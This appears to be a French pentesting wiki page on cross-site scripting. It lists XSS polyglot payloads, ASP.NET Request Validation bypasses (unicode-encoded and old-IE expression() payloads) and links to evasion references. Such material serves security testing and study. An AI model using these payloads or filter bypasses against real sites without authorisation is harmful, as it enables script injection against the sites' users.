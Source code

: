 ```yaml
---
title: Cross Site Scripting
permalink: /XSS/
---
```


# Cross-Site Scripting

## Payloads

Les payloads suivants peuvent être utiles:

``` text
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//"; alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
```

```text
" onclick=alert(1)//<button ' onclick=alert(1)//>*/alert(1)//
```

## ASP.Net

ASP.Net a le mécanisme de "Request Validation" qui bloque de nombreuses tentatives XSS. Globalement tout payload de la forme "<a" (où a est une lettre ou le caractère ! sera bloqué).

Quelques bypass sont possibles:
- Sur les vieilles versions d'IE le payload <#tag
- Si on a une stored il est possible d'injecter un payload en unicode (voir [Bypassing ASP.NET “ValidateRequest” for Stored XSS attacks](https://infosecauditor.wordpress.com/2013/05/27/bypassing-asp-net-validaterequest-for-script-injection-attacks/)). Ceci est dû à une conversion qui est faite par la base de données (les caractères unicodes étant convertis en leur équivalent "standard"): 
``%uff1cscript%uff1ealert('XSS');%uff1c/script%uff1e``
- Sur les vieilles versions de IE et de ASP.net (patch en 2007) le payload suivant marche: ```</XSS STYLE=xss:expression(alert('XSS'))>```

D'autres bypass [Bypassing .Net ValidateRequest](http://www.procheckup.com/media/39734/bypassing-dot-net-validaterequest.pdf)

## Références

- [Master the art of Cross Site Scripting](https://brutelogic.com.br/blog/)
- [XSS without event handlers](https://brutelogic.com.br/blog/xss-without-event-handlers/): pour les situations où les events du type onerror sont bloqués
- [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
- [PassiveXssScan](https://github.com/jkadijk/burp-plugins): un plugin pour identifier automatiquement les éléments "reflected" dans Burp.

